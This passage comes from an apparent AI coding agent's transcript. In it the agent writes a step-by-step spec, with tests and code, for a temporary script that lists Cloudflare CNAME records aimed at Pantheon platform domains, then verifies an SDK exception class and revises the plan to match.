sole authority.  (The main program's\n    plugin/cloudflare/client.py has the same latent defect; fixing it is a separate change.)\n    \"\"\"\n    client = Cloudflare(**creds)\n    for field in (\"api_token\", \"api_key\", \"api_email\", \"user_service_key\"):\n        if field not in creds:\n            setattr(client, field, None)\n    return client\n\n\ndef cloudflare_client(config_path):\n    \"\"\"Build the Cloudflare client from the [Cloudflare] table of the TOML at `config_path`.\n\n    api_token wins when present; otherwise email + api_key, both required -- the same precedence\n    plugin/cloudflare/client.py uses.  `enabled` is deliberately NOT consulted: that flag governs\n    the main program's per-site Cloudflare work, and refusing to run this utility because of it\n    would be a surprise to an operator who invoked it on purpose.\n    \"\"\"\n    try:\n        with Path(config_path).open(\"rb\") as handle:\n            config = tomllib.load(handle)\n    except OSError as e:\n        raise StartupError(f\"cannot read {config_path}: {e}\") from e\n    except tomllib.TOMLDecodeError as e:\n        raise StartupError(f\"{config_path} is not valid TOML: {e}\") from e\n\n    section = config.get(\"Cloudflare\")\n    if not isinstance(section, dict):\n        raise StartupError(f\"{config_path} has no [Cloudflare] section\")\n\n    def value(key):\n        return resolve_config_value(section.get(key), f\"{config_path} [Cloudflare].{key}\")\n\n    api_token = value(\"api_token\")\n    if api_token:\n        return build_client(api_token=api_token)\n    email = value(\"email\")\n    api_key = value(\"api_key\")\n    if not email or not api_key:\n        raise StartupError(\n            f\"{config_path} [Cloudflare] needs either api_token, or both email and api_key\")\n    return build_client(api_email=email, api_key=api_key)\n```\n\n- [ ] **Step 4: Run the tests to verify they pass**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\nExpected: 20 passed.\n\n- [ ] **Step 5: Commit**\n\n```bash\ngit add find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py\ngit commit -m \"feat(find-platform-domains-cloudflare): resolve [Cloudflare] credentials from the config\"\n```\n\n---\n\n## Task 3: The fold\n\n**Files:**\n- Modify: `find-platform-domains-cloudflare` (append after `cloudflare_client`)\n- Test: `tests/unit/test_find_platform_domains_cloudflare.py` (append)\n\n**Interfaces:**\n- Consumes: `is_platform_domain`, `normalize` (Task 1).\n- Produces: `collect_entries(zone_records) -> tuple[dict, list[str]]`, where `zone_records` is any\n  iterable of `(zone_id, record)` pairs and the returned dict is R5's structure.\n\n- [ ] **Step 1: Write the failing tests**\n\nAppend to `tests/unit/test_find_platform_domains_cloudflare.py`:\n\n```python\ndef test_collect_entries_builds_the_output_structure(fpc):\n    entries, warnings = fpc.collect_entries([(\"zone-a\", record())])\n    assert entries == {\n        \"www.example.edu\": {\n            \"zone_id\": \"zone-a\",\n            \"origins\": [\"live-umich-example1.pantheonsite.io\"],\n            \"record_id\": \"rec-1\",\n            \"proxied\": True,\n        },\n    }\n    assert warnings == []\n\n\ndef test_collect_entries_keeps_dns_only_records(fpc):\n    \"\"\"The whole reason this script exists next to fqdns.json, which is proxied=True only.\"\"\"\n    entries, _ = fpc.collect_entries([(\"zone-a\", record(proxied=False))])\n    assert entries[\"www.example.edu\"][\"proxied\"] is False\n\n\ndef test_collect_entries_treats_a_missing_proxied_attribute_as_false(fpc):\n    bare = types.SimpleNamespace(type=\"CNAME\", name=\"www.example.edu\", id=\"rec-1\",\n                                 content=\"live-umich-example1.pantheonsite.io\")\n    entries, _ = fpc.collect_entries([(\"zone-a\", bare)])\n    assert entries[\"www.example.edu\"][\"proxied\"] is False\n\n\n@pytest.mark.parametrize(\"skipped\", [\n    {\"type\": \"A\", \"content\": \"23.185.0.4\"},\n    {\"type\": \"A\", \"content\": \"live-umich-example1.pantheonsite.io\"},   # not a CNAME\n    {\"type\": \"TXT\", \"content\": \"v=spf1 -all\"},\n    {\"type\": \"CNAME\", \"content\": \"www.example.edu.cdn.cloudflare.net\"},  # not a platform domain\n    {\"type\": \"CNAME\", \"content\": \"notpantheonsite.io\"},\n])\ndef test_collect_entries_skips_everything_that_is_not_a_platform_cname(fpc, skipped):\n    entries, warnings = fpc.collect_entries([(\"zone-a\", record(**skipped))])\n    assert entries == {}\n    assert warnings == []\n\n\ndef test_collect_entries_normalizes_the_key_and_keeps_origins_raw(fpc):\n    entries, _ = fpc.collect_entries(\n        [(\"zone-a\", record(name=\"WWW.Example.EDU.\",\n                           content=\"Live-Umich-Example1.PantheonSite.IO\"))])\n    assert list(entries) == [\"www.example.edu\"]\n    assert entries[\"www.example.edu\"][\"origins\"] == [\"Live-Umich-Example1.PantheonSite.IO\"]\n\n\ndef test_collect_entries_is_first_record_wins_across_zones_and_warns(fpc):\n    entries, warnings = fpc.collect_entries([\n        (\"zone-a\", record(id=\"rec-1\", content=\"live-a.pantheonsite.io\", proxied=True)),\n        (\"zone-b\", record(id=\"rec-2\", content=\"live-b.pantheonsite.io\", proxied=False)),\n    ])\n    entry = entries[\"www.example.edu\"]\n    assert entry[\"zone_id\"] == \"zone-a\"\n    assert entry[\"record_id\"] == \"rec-1\"\n    assert entry[\"proxied\"] is True\n    assert entry[\"origins\"] == [\"live-a.pantheonsite.io\", \"live-b.pantheonsite.io\"]\n    assert len(warnings) == 1\n    assert \"www.example.edu\" in warnings[0]\n    assert \"zone-a\" in warnings[0]\n    assert \"zone-b\" in warnings[0]\n\n\ndef test_collect_entries_does_not_warn_for_two_matches_in_one_zone(fpc):\n    entries, warnings = fpc.collect_entries([\n        (\"zone-a\", record(id=\"rec-1\", content=\"live-a.pantheonsite.io\")),\n        (\"zone-a\", record(id=\"rec-2\", content=\"live-b.pantheonsite.io\")),\n    ])\n    assert entries[\"www.example.edu\"][\"record_id\"] == \"rec-1\"\n    assert warnings == []\n```\n\n- [ ] **Step 2: Run the tests to verify they fail**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\nExpected: FAIL — `AttributeError: module … has no attribute 'collect_entries'`.\n\n- [ ] **Step 3: Implement**\n\nAppend to `find-platform-domains-cloudflare`, after `cloudflare_client`:\n\n```python\ndef collect_entries(zone_records):\n    \"\"\"Fold (zone_id, record) pairs into the output mapping.  Returns (entries, warnings).\n\n    A record is kept only when it is a CNAME whose content is a *.pantheonsite.io hostname.\n    Proxy status is NOT part of the test -- that is exactly what separates this script from\n    fqdns.json, which is built with proxied=True and therefore cannot see a DNS-only record.\n\n    zone_id / record_id / proxied are FIRST-RECORD-WINS, mirroring how fqdns.json already keeps\n    only the first zone_id for a name.  `origins` accumulates every match, so a name that matches\n    in two zones stays visible in the file itself and not only in the warning.\n\n    `zone_records` is consumed lazily, so the caller can hand over a generator and the whole\n    organization's record set is never held in memory at once.\n    \"\"\"\n    entries = {}\n    warnings = []\n    for zone_id, dns_record in zone_records:\n        if getattr(dns_record, \"type\", None) != \"CNAME\":\n            continue\n        content = getattr(dns_record, \"content\", None)\n        if content is None or not is_platform_domain(content):\n            continue\n        name = normalize(dns_record.name)\n        entry = entries.get(name)\n        if entry is None:\n            entries[name] = {\n                \"zone_id\": zone_id,\n                \"origins\": [content],\n                \"record_id\": dns_record.id,\n                # A record type that cannot be proxied has no `proxied` field at all.\n                \"proxied\": bool(getattr(dns_record, \"proxied\", False)),\n            }\n            continue\n        entry[\"origins\"].append(content)\n        if entry[\"zone_id\"] != zone_id:\n            warnings.append(\n                f\"ATTENTION: {name} has a platform-domain CNAME in more than one Cloudflare \"\n                f\"zone ({entry['zone_id']} and {zone_id}); keeping the first zone_id/record_id\")\n    return entries, warnings\n```\n\n- [ ] **Step 4: Run the tests to verify they pass**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\nExpected: 31 passed.\n\n- [ ] **Step 5: Commit**\n\n```bash\ngit add find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py\ngit commit -m \"feat(find-platform-domains-cloudflare): fold DNS records into the output mapping\"\n```\n\n---\n\n## Task 4: The atomic write\n\n**Files:**\n- Modify: `find-platform-domains-cloudflare` (append after `collect_entries`)\n- Modify: `.gitignore`\n- Test: `tests/unit/test_find_platform_domains_cloudflare.py` (append)\n\n**Interfaces:**\n- Consumes: nothing.\n- Produces: `write_json_atomic(path, data) -> None`.\n\n- [ ] **Step 1: Write the failing tests**\n\nAppend to `tests/unit/test_find_platform_domains_cloudflare.py`:\n\n```python\ndef test_write_json_atomic_writes_sorted_indented_json_with_a_trailing_newline(fpc, tmp_path):\n    target = tmp_path / \"out.json\"\n    fpc.write_json_atomic(str(target), {\"b\": {\"zone_id\": \"z\"}, \"a\": {\"zone_id\": \"y\"}})\n    text = target.read_text()\n    assert text.endswith(\"\\n\")\n    assert list(json.loads(text)) == [\"a\", \"b\"]\n    assert '    \"a\"' in text          # indent=4\n\n\ndef test_write_json_atomic_overwrites_an_existing_file_and_leaves_no_temp_file(fpc, tmp_path):\n    \"\"\"SPEC: the output file is regenerated in full on every run, whatever its age.\"\"\"\n    target = tmp_path / \"out.json\"\n    target.write_text('{\"stale\": {\"zone_id\": \"old\"}}\\n')\n    fpc.write_json_atomic(str(target), {})\n    assert json.loads(target.read_text()) == {}\n    assert [p.name for p in tmp_path.iterdir()] == [\"out.json\"]\n\n\ndef test_write_json_atomic_leaves_the_previous_file_intact_when_serialization_fails(fpc, tmp_path):\n    target = tmp_path / \"out.json\"\n    target.write_text('{\"previous\": {\"zone_id\": \"kept\"}}\\n')\n    with pytest.raises(TypeError):\n        fpc.write_json_atomic(str(target), {\"bad\": {object()}})\n    assert json.loads(target.read_text()) == {\"previous\": {\"zone_id\": \"kept\"}}\n    assert [p.name for p in tmp_path.iterdir()] == [\"out.json\"]\n```\n\n- [ ] **Step 2: Run the tests to verify they fail**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\nExpected: FAIL — `AttributeError: module … has no attribute 'write_json_atomic'`.\n\n- [ ] **Step 3: Implement**\n\nAppend to `find-platform-domains-cloudflare`, after `collect_entries`:\n\n```python\ndef write_json_atomic(path, data) -> None:\n    \"\"\"Write data as JSON to a temp file in the same directory, then os.replace() it onto `path`.\n\n    Copied from plugin/cloudflare/fqdns.py's write_fqdns_atomic.  Atomic: an interrupted write\n    never leaves a half-written or truncated output file -- the previous one stays byte-intact.\n    \"\"\"\n    directory = os.path.dirname(os.path.abspath(path)) or \".\"  # noqa: PTH120, PTH100 --\n    # feeds tempfile.mkstemp's dir=, load-bearing for the atomic-rename-needs-same-filesystem\n    # guarantee this docstring documents; Path.resolve() follows symlinks where\n    # os.path.abspath() does not, a real semantic difference for the symlink case\n    fd, tmp = tempfile.mkstemp(dir=directory, prefix=\".platform-domains-\", suffix=\".tmp\")\n    try:\n        with os.fdopen(fd, \"w\") as f:\n            json.dump(data, f, indent=4, sort_keys=True)\n            f.write(\"\\n\")\n        # mkstemp creates the temp file mode 0600, which os.replace would preserve; restore a\n        # normal umask-based mode (typically 0644) so other readers keep their access.\n        current_umask = os.umask(0)\n        os.umask(current_umask)\n        os.chmod(tmp, 0o666 & ~current_umask)  # noqa: PTH101 -- behavior surface, see above\n        os.replace(tmp, path)  # noqa: PTH105 -- THE atomic-replace call this docstring documents\n    except BaseException:  # incl. KeyboardInterrupt: drop the temp file, leave the old one intact\n        try:  # noqa: SIM105 -- not restructuring the BaseException cleanup handler's flow\n            os.unlink(tmp)  # noqa: PTH108 -- cleanup path of the same behavior surface\n        except FileNotFoundError:\n            pass\n        raise\n```\n\n- [ ] **Step 4: Ignore the generated output file**\n\nIn `.gitignore`, next to the existing `/fqdns.json` line:\n\n```\n/platform-domains-cloudflare.json\n```\n\n- [ ] **Step 5: Run the tests to verify they pass**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\nExpected: 34 passed.\n\n- [ ] **Step 6: Commit**\n\n```bash\ngit add find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py \\\n        .gitignore\ngit commit -m \"feat(find-platform-domains-cloudflare): write the output file atomically\"\n```\n\n---\n\n## Task 5: The walk and the CLI\n\n**Files:**\n- Modify: `find-platform-domains-cloudflare` (append after `write_json_atomic`)\n- Test: `tests/unit/test_find_platform_domains_cloudflare.py` (append)\n\n**Interfaces:**\n- Consumes: `collect_entries` (Task 3), `cloudflare_client` (Task 2), `write_json_atomic`\n  (Task 4), `StartupError`, `OUTPUT_FILE`, `DEFAULT_CONFIG` (Task 1).\n- Produces:\n  - `fetch_platform_cnames(client, *, verbose=False) -> tuple[dict, list[str], int, int]`\n    returning `(entries, warnings, zone_count, account_count)`\n  - `build_arg_parser() -> argparse.ArgumentParser`\n  - `main(argv) -> int`\n\n- [ ] **Step 1: Write the failing tests**\n\nAppend to `tests/unit/test_find_platform_domains_cloudflare.py`:\n\n```python\nclass FakeCloudflareClient:\n    \"\"\"The three list() calls fetch_platform_cnames makes, and nothing else.\"\"\"\n\n    def __init__(self, accounts, zones, records_by_zone, error=None):\n        self._error = error\n        self.accounts = types.SimpleNamespace(list=lambda: list(accounts))\n        self.zones = types.SimpleNamespace(list=lambda account: list(zones))\n        self.dns = types.SimpleNamespace(\n            records=types.SimpleNamespace(list=self._records))\n        self._records_by_zone = records_by_zone\n\n    def _records(self, zone_id):\n        if self._error is not None:\n            raise self._error\n        return list(self._records_by_zone.get(zone_id, []))\n\n\ndef account(identifier=\"acct-1\"):\n    return types.SimpleNamespace(id=identifier)\n\n\ndef zone(identifier, name=\"example.edu\"):\n    return types.SimpleNamespace(id=identifier, name=name)\n\n\ndef test_fetch_platform_cnames_walks_every_zone_regardless_of_proxy_status(fpc):\n    client = FakeCloudflareClient(\n        accounts=[account()],\n        zones=[zone(\"zone-a\"), zone(\"zone-b\", \"example.org\")],\n        records_by_zone={\n            \"zone-a\": [record(name=\"proxied.example.edu\", id=\"rec-1\", proxied=True),\n                       record(name=\"mail.example.edu\", id=\"rec-2\", type=\"MX\",\n                              content=\"mx.example.edu\")],\n            \"zone-b\": [record(name=\"dnsonly.example.org\", id=\"rec-3\", proxied=False)],\n        })\n    entries, warnings, zone_count, account_count = fpc.fetch_platform_cnames(client)\n    assert sorted(entries) == [\"dnsonly.example.org\", \"proxied.example.edu\"]\n    assert entries[\"dnsonly.example.org\"][\"proxied\"] is False\n    assert warnings == []\n    assert (zone_count, account_count) == (2, 1)\n\n\ndef test_fetch_platform_cnames_treats_zero_zones_as_fatal(fpc):\n    \"\"\"A missing DNS:Read scope and a genuinely empty org produce an identical empty file.\"\"\"\n    client = FakeCloudflareClient(accounts=[account()], zones=[], records_by_zone={})\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.fetch_platform_cnames(client)\n    assert \"0 zones\" in str(caught.value)\n\n\ndef test_fetch_platform_cnames_turns_an_api_error_into_a_startup_error(fpc):\n    import cloudflare\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\")], records_by_zone={},\n        error=cloudflare.APIConnectionError(request=None))\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.fetch_platform_cnames(client)\n    assert \"DNS records\" in str(caught.value)\n```\n\n> Note for the implementer: `import cloudflare` inside the test body is deliberate — the\n> file-top import block is fixed by Task 1, and `PLC0415` (in-test imports) is in the `tests/**`\n> ignore list. If `cloudflare.APIConnectionError(request=None)` cannot be constructed in this SDK\n> version, substitute any concrete `cloudflare.CloudflareError` subclass that can; the assertion\n> is about the wrapping, not the class.\n\n- [ ] **Step 2: Run the tests to verify they fail**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\nExpected: FAIL — `AttributeError: module … has no attribute 'fetch_platform_cnames'`.\n\n- [ ] **Step 3: Implement**\n\nAppend to `find-platform-domains-cloudflare`, after `write_json_atomic`:\n\n```python\ndef fetch_platform_cnames(client, *, verbose=False):\n    \"\"\"Walk every account -> zone -> DNS record and collect the platform-domain CNAMEs.\n\n    Returns (entries, warnings, zone_count, account_count).\n\n    No `proxied=` filter and no `type=` filter on the record list: every record in every zone is\n    fetched and inspected here.  That is what \"consider all DNS records\" means, and per the spec\n    no work goes into making it faster.  (If a run ever becomes painful, type=\"CNAME\" on the\n    list call below is the one-word change.)\n\n    Zero zones is fatal, copied from fqdns.py's reasoning: with DNS:Read missing, \"no zones\" and\n    \"no matching records\" write an identical empty file, and a silently empty file is the one\n    failure mode this script must not have.\n    \"\"\"\n    try:\n        accounts = list(client.accounts.list())\n        zones = []\n        for account in accounts:\n            zones.extend(client.zones.list(account={\"id\": account.id}))\n    except cloudflare.CloudflareError as e:\n        raise StartupError(f\"listing accounts/zones failed: {e}\") from e\n\n    if not zones:\n        raise StartupError(\n            f\"Cloudflare returned {len(accounts)} account(s) but 0 zones -- the credentials \"\n            \"likely lack DNS:Read for the zones.\")\n\n    def zone_records():\n        \"\"\"(zone_id, record) pairs, lazily -- the org's whole record set is never resident.\"\"\"\n        for number, zone in enumerate(zones, start=1):\n            if verbose:\n                print(f\"[{number}/{len(zones)}] zone {zone.name}\", file=sys.stderr, flush=True)\n            for dns_record in client.dns.records.list(zone_id=zone.id):\n                yield zone.id, dns_record\n\n    try:\n        entries, warnings = collect_entries(zone_records())\n    except cloudflare.CloudflareError as e:\n        raise StartupError(f\"listing DNS records failed: {e}\") from e\n\n    return entries, warnings, len(zones), len(accounts)\n\n\ndef build_arg_parser():\n    parser = argparse.ArgumentParser(\n        allow_abbrev=False,          # house rule: no --for -> --for-real class of foot-gun\n        description=\"Write every Cloudflare CNAME record pointing at a Pantheon platform \"\n                    f\"domain to {OUTPUT_FILE}.\")\n    parser.add_argument(\"-c\", \"--config\", default=DEFAULT_CONFIG,\n                        help=f\"TOML file to read [Cloudflare] credentials from \"\n                             f\"(default: {DEFAULT_CONFIG})\")\n    parser.add_argument(\"-v\", \"--verbose\", action=\"store_true\",\n                        help=\"print each zone to stderr as it is scanned\")\n    return parser\n\n\ndef main(argv):\n    \"\"\"Exit 0 = the output file was written, 2 = could not complete, 130 = interrupted.\n\n    There is deliberately no exit 1: the sibling find-platform-domains-dns reserves it for\n    \"completed with indeterminates\" because a DNS lookup can be indeterminate, whereas a\n    Cloudflare list call either returns or raises.\n\n    stdout is unused -- the result is the file, and everything an operator reads goes to stderr.\n    \"\"\"\n    options = build_arg_parser().parse_args(argv)\n    try:\n        client = cloudflare_client(options.config)\n        entries, warnings, zone_count, account_count = fetch_platform_cnames(\n            client, verbose=options.verbose)\n        for message in warnings:\n            print(message, file=sys.stderr, flush=True)\n        write_json_atomic(OUTPUT_FILE, entries)\n        print(f\"Wrote {len(entries)} platform-domain CNAMEs from {zone_count} zones in \"\n              f\"{account_count} account(s) to {OUTPUT_FILE}.\", file=sys.stderr, flush=True)\n    except StartupError as e:\n        print(f\"ERROR: {e}\", file=sys.stderr, flush=True)\n        return 2\n    except KeyboardInterrupt:\n        # The write is atomic, so the file is either untouched or complete -- never half-written.\n        print(f\"INTERRUPTED: {OUTPUT_FILE} is either unchanged or fully written.\",\n              file=sys.stderr, flush=True)\n        return 130\n    return 0\n\n\nif __name__ == \"__main__\":\n    sys.exit(main(sys.argv[1:]))\n```\n\n- [ ] **Step 4: Run the tests to verify they pass**\n\nRun: `./run-tests --fast tests/unit/test_find_platform_domains_cloudflare.py -v`\nExpected: 37 passed.\n\n- [ ] **Step 5: Verify the whole gate**\n\nRun: `./run-tests --fast`\nExpected: ruff passes, pyright passes, the full offline suite is green with no new failures.\n\n- [ ] **Step 6: Verify the CLI surface without touching Cloudflare**\n\n```bash\n./find-platform-domains-cloudflare --help\n./find-platform-domains-cloudflare -c /nonexistent.toml ; echo \"exit=$?\"\n```\nExpected: usage text on stdout; then `ERROR: cannot read /nonexistent.toml: …` on stderr and\n`exit=2`.\n\n- [ ] **Step 7: Commit**\n\n```bash\ngit add find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py\ngit commit -m \"feat(find-platform-domains-cloudflare): walk every zone and write the output file\"\n```\n\n---\n\n## Task 6: Documentation and the live verification run\n\n**Files:**\n- Modify: `CLAUDE.md` (a subsection beside the existing `find-platform-domains-dns` one)\n- Modify: `development/2026-07-30-platform-domain-util2/SPEC.md` (record the live-run result in §9)\n\n**Interfaces:**\n- Consumes: the finished script.\n- Produces: nothing code-facing.\n\n- [ ] **Step 1: Add the CLAUDE.md subsection**\n\nImmediately after the existing `### \\`find-platform-domains-dns\\` (temporary utility)` subsection,\nadd:\n\n```markdown\n### `find-platform-domains-cloudflare` (temporary utility)\n\nA standalone, deletable script — **not** part of the main program and importing nothing from\n`psh/`/`check/`/`plugin/` — that writes every Cloudflare DNS **CNAME whose target ends in\n`.pantheonsite.io`** to `./platform-domains-cloudflare.json`. It is the Cloudflare-side\ncounterpart to `find-platform-domains-dns`: that one reads public DNS and is blind to a proxied\nrecord's target; `fqdns.json` is built with `proxied=True` and is blind to a DNS-only record.\nThis considers **all** records in **all** zones of every account the credentials can see.\n\nThe file is keyed by FQDN with `{zone_id, origins, record_id, proxied}` — `fqdns.json`'s two\nfields plus the two the downstream batch rewrite needs (`research.md` in the development folder).\n`zone_id`/`record_id`/`proxied` are **first-record-wins**, `origins` accumulates, and a name\nmatching in two zones warns on stderr. The file is **regenerated in full on every run**, whatever\nits age; a run that matches nothing writes `{}` rather than leaving a stale file. Exit 0 = written,\n2 = could not complete (unreadable config, unresolvable substitution, missing credentials, any\nCloudflare API error, **or zero zones** — a missing `DNS:Read` scope and an empty org otherwise\nproduce an identical empty file), 130 = interrupted. stdout is unused; the result is the file.\n\nCredentials come from `[Cloudflare]` in the same TOML the main program reads, via a **copied**\n~20-line resolver handling only the `<{env NAME}` / `<{secret env NAME}` forms (with optional\ndefault); any other substitution is a named error, not a silent passthrough. `enabled` is not\nconsulted. **`build_client()` pins all four SDK credential fields**: the `cloudflare` SDK\nback-fills unset credentials from the environment and its `auth_headers` prefers `X-Auth-Email`\nover the bearer token, so an unpinned `api_token=` client on a host exporting `CLOUDFLARE_EMAIL`\nauthenticates as that email and never sends the token. `plugin/cloudflare/client.py` still has\nthat latent defect, live only if `api_token` is ever uncommented.\n\n```bash\n./find-platform-domains-cloudflare            # every zone, every account\n./find-platform-domains-cloudflare -v         # ... naming each zone on stderr\n```\n\n`find-platform-domains-cloudflare.py` is a committed symlink to the script above, same convention\nas `pantheon-sitehealth-emails.py` and `find-platform-domains-dns.py`: ruff, pyright, and\nCodeGraph key off the `.py` extension and would otherwise be blind to the extension-less real\nfile. **Delete this script after Pantheon's CDN migration** — checklist in\n`development/2026-07-30-platform-domain-util2/SPEC.md` §8.\n```\n\n- [ ] **Step 2: Run the live sweep**\n\n```bash\nsource .venv/bin/activate\n./find-platform-domains-cloudflare -v ; echo \"exit=$?\"\n```\n\nExpected: per-zone lines on stderr, then the summary, `exit=0`, and a\n`platform-domains-cloudflare.json` whose entries satisfy §9's checks.\n\n- [ ] **Step 3: Verify the output against §9's checklist**\n\n```bash\npython - <<'PY'\nimport json\ndata = json.load(open(\"platform-domains-cloudflare.json\"))\nassert all(o.endswith(\".pantheonsite.io\") for e in data.values() for o in\n           (o.rstrip(\".\").lower() for o in e[\"origins\"])), \"a non-platform origin got in\"\nassert all({\"zone_id\", \"origins\", \"record_id\", \"proxied\"} == set(e) for e in data.values())\nprint(len(data), \"entries;\", sum(1 for e in data.values() if not e[\"proxied\"]),\n      \"of them DNS-only (invisible to fqdns.json)\")\nPY\n```\n\n- [ ] **Step 4: Cross-check against `fqdns.json`**\n\n```bash\npython - <<'PY'\nimport json\nnew = json.load(open(\"platform-domains-cloudflare.json\"))\nold = json.load(open(\"fqdns.json\"))\nproxied_here = {k for k, v in new.items() if v[\"proxied\"]}\nmissing = sorted(proxied_here - set(old))\nprint(\"proxied platform CNAMEs this run found that fqdns.json lacks:\", missing)\nPY\n```\n\nExpected: an empty list, or a short list explainable by `fqdns.json` being stale (it is refreshed\non a 24h rule). A long unexplained list means the walk is wrong — stop and investigate before\nrecording §9.\n\n- [ ] **Step 5: Record the measured result in §9 of this SPEC, then commit**\n\n```bash\ngit add CLAUDE.md development/2026-07-30-platform-domain-util2/SPEC.md\ngit commit -m \"docs(find-platform-domains-cloudflare): document the utility and record its first live run\"\n```\n\n---\n\n## 5. NOT in scope\n\nRecorded with the reasoning so a later session does not re-litigate them.\n\n1. **`--output` flag.** The path is fixed by the prompt. A script with one caller and a\n   months-long life does not need a configurable output path.\n2. **Nested `records` list / parallel `record_ids` arrays.** Considered and rejected in favor of\n   scalar `record_id`/`proxied` with first-record-wins, mirroring how `fqdns.json` already treats\n   `zone_id`. The cross-zone case is rare, is warned about on stderr, and keeps both targets in\n   `origins`.\n3. **Server-side filtering (`type=\"CNAME\"` on the record list).** Rejected: the requirement is to\n   consider all records, efficiency is explicitly not a goal, and the change is one word if a run\n   ever becomes painful.\n4. **Doomed-stream detach guards and the exit-120 taxonomy** that `find-platform-domains-dns`\n   carries. Rejected: that machinery exists because that script's *result* is a CSV on stdout,\n   where a failed shutdown flush silently converts a good sweep into exit 120. Here the result is\n   a file and stdout is unused. A doomed **stderr** can still produce exit 120; accepted and\n   documented rather than guarded.\n5. **A CLI-level test of `main()`.** Rejected: it would force a client-injection seam to exist for\n   the test's benefit alone, in a script that is deleted this year. `main()` is a thin composition\n   of five separately tested functions; its exit codes are verified by hand in Task 5 Step 6.\n6. **Progress bars (`rich.progress`).** Rejected: `-v` stderr lines carry the same information\n   with none of the copied machinery.\n7. **Fixing `plugin/cloudflare/client.py`'s credential-isolation defect (R2a).** Real, and\n   reported — but it is a change to the main program with its own test surface, not part of a\n   standalone utility.\n8. **A `docs/` page.** The CLAUDE.md subsection is the documentation; a temporary utility does not\n   earn a docs page.\n\n## 6. Files created / modified (complete list)\n\n| File | Action | Task |\n|---|---|---|\n| `find-platform-domains-cloudflare` | create (executable) | 1–5 |\n| `find-platform-domains-cloudflare.py` | create (symlink) | 1 |\n| `tests/unit/test_find_platform_domains_cloudflare.py` | create | 1–5 |\n| `pyproject.toml` | modify (2 per-file-ignores + 1 pyright include) | 1 |\n| `.claude/hooks/ruff-check.sh` | modify (1 case arm + comment) | 1 |\n| `.gitignore` | modify (1 line) | 4 |\n| `CLAUDE.md` | modify (1 subsection) | 6 |\n| `development/2026-07-30-platform-domain-util2/SPEC.md` | modify (§9 result) | 6 |\n\n## 7. Verification\n\n- `./run-tests --fast` — ruff, pyright, and the offline suite all green.\n- `./find-platform-domains-cloudflare --help` — usage renders.\n- `./find-platform-domains-cloudflare -c /nonexistent.toml` — exit 2, named error on stderr.\n- The live run and its two cross-checks (Task 6 Steps 2–4).\n\n## 8. Deletion checklist (after Pantheon's CDN migration)\n\n1. `git rm find-platform-domains-cloudflare find-platform-domains-cloudflare.py`\n2. `git rm tests/unit/test_find_platform_domains_cloudflare.py`\n3. `pyproject.toml`: remove the **two** `[tool.ruff.lint.per-file-ignores]` entries\n   (`\"find-platform-domains-cloudflare.py\"` and `\"find-platform-domains-cloudflare\"`).\n4. `pyproject.toml`: remove `\"find-platform-domains-cloudflare.py\"` from `[tool.pyright].include`.\n5. `.claude/hooks/ruff-check.sh`: remove the `\"$REPO_ROOT/find-platform-domains-cloudflare\"` case\n   arm and trim its comment back to naming only `find-platform-domains-dns`.\n6. `.gitignore`: remove `/platform-domains-cloudflare.json`.\n7. `CLAUDE.md`: remove the `### find-platform-domains-cloudflare (temporary utility)` subsection.\n8. Delete any leftover `platform-domains-cloudflare.json` from working checkouts.\n\nThis folder (`development/2026-07-30-platform-domain-util2/`) stays — it is the historical record.\n\n## 9. First live run\n\n*Recorded in Task 6, Step 5. Leave this section as-is until then.*\n\n- Date:\n- Command:\n- Exit code:\n- Accounts / zones scanned:\n- Entries written, of which DNS-only:\n- `fqdns.json` cross-check result:\n"
}
```

### ↳ Tool result

```
File created successfully at: /workspace/development/2026-07-30-platform-domain-util2/SPEC.md (file state is current in your context — no need to Read it back)
```

## Assistant

Now the self-review pass the skill requires. Two things to verify first — the test counts, and whether that exception is actually constructible:

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate 2>/dev/null; python -c \"\nimport cloudflare\nprint(cloudflare.APIConnectionError.__mro__[:4])\ntry:\n    e = cloudflare.APIConnectionError(request=None)\n    print('constructed OK:', repr(e), '| is CloudflareError:', isinstance(e, cloudflare.CloudflareError))\nexcept Exception as exc:\n    print('FAILED:', type(exc).__name__, exc)\n\"",
  "description": "Verify the test exception is constructible"
}
```

### ↳ Tool result

```
(<class 'cloudflare.APIConnectionError'>, <class 'cloudflare.APIError'>, <class 'cloudflare.CloudflareError'>, <class 'Exception'>)
constructed OK: APIConnectionError('Connection error.') | is CloudflareError: True
```

## Assistant

Constructible and a `CloudflareError` subclass — so I can replace the hedge with a verified statement. Applying the self-review fixes:

### ⚙ Tool call: `Edit`

```json
{
  "replace_all": false,
  "file_path": "/workspace/development/2026-07-30-platform-domain-util2/SPEC.md",
  "old_string": "> Note for the implementer: `import cloudflare` inside the test body is deliberate — the\n> file-top import block is fixed by Task 1, and `PLC0415` (in-test imports) is in the `tests/**`\n> ignore list. If `cloudflare.APIConnectionError(request=None)` cannot be constructed in this SDK\n> version, substitute any concrete `cloudflare.CloudflareError` subclass that can; the assertion\n> is about the wrapping, not the class.",
  "new_string": "> Note for the implementer: `import cloudflare` inside the test body is deliberate — the\n> file-top import block is fixed by Task 1, and `PLC0415` (in-test imports) is in the `tests/**`\n> ignore list. `cloudflare.APIConnectionError(request=None)` was verified constructible against\n> the installed SDK (5.4.0) and its MRO is\n> `APIConnectionError → APIError → CloudflareError → Exception`, so it exercises the\n> `except cloudflare.CloudflareError` clause."
}
```

### ↳ Tool result

```
The file /workspace/development/2026-07-30-platform-domain-util2/SPEC.md has been updated successfully. (file state is current in your context — no need to Read it back)
```

### ⚙ Tool call: `Edit`

```json
{
  "replace_all": false,
  "file_path": "/workspace/development/2026-07-30-platform-domain-util2/SPEC.md",
  "old_string": "Expected: 20 passed.",
